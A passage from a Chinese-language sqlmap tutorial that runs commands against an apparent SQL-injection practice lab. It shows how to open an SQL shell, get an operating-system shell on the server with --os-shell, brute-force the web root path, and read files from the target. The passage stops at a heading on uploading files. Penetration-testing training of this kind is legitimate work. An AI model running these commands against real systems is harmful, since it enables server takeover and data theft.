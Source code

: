 ```
referer  http://www.baidu.com
```

### 执行指定的 SQL 语句

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
```

然后会提示我们输入要查询的 SQL 语句，注意这里的 SQL 语句最后不要有分号 

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzZ1FAfPBtOiaFINic7Oqujw0SjKx2uxmujCZvX6YEB72lV0ZSR6m4Mksw/640?wx_fmt=png)

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzOUVKxBDpFxB81lYP9RqUxxXib4icPRzEPAyEGNAnfxLjvJ0nDNINk8icA/640?wx_fmt=png) 

### 执行操作系统命令

在数据库为 Mysql、PostgreSql 或者 SQL Server 时，当满足下面三个条件，我们就可以执行操作系统命令

*   网站必须是 root 权限
    
*   攻击者需要知道网站的绝对路径
    
*   GPC 为 off，php 主动转义的功能关闭
    

```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell  #执行--os-shell命令
```

如果我们不知道网站的根目录的绝对路径的话，我们那里选择 4 brute force search 暴力破解，尝试破解出根目录的绝对路径！ 

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzgCUZx8EcL8Dl72rDZiagcPxFJ7EPzQ1SGicL1jPIF5zg0GfEaFr1RUGg/640?wx_fmt=png)

### 从数据库中读取文件

当数据库为 Mysql、PostgreSQL 或 SQL Server，并且当前用户有权限时，可以读取指定文件，可以是文本文件或者二进制文件。

```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUztgaNhgiciboOL8WlLXgwVSlA2SjAZKT3iaDhbia2EkbrFQ5o37vw1gWreQ/640?wx_fmt=png)

可以看到，文件读取成功了，并且保存成了 /root/.sqlmap/output/192.168.10.1/files/c__test.txt 文件

### ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dFib5g1fbicqX8MgAr9JCHUzrkGkS2DYc8fXqTkHwXHGWkTTbnv3vNmfRcjKia5WB0sbvuSrwMazRlA/640?wx_fmt=png)

### 上传文件到数据库服务器中

当数据库为 Mysql、Postgre SQL 或者 Sql Server，并且当前用户有权限使用特定的函数时，可以上传文件到数据库服务器。文件可以是文本，也可以是二进制文件。
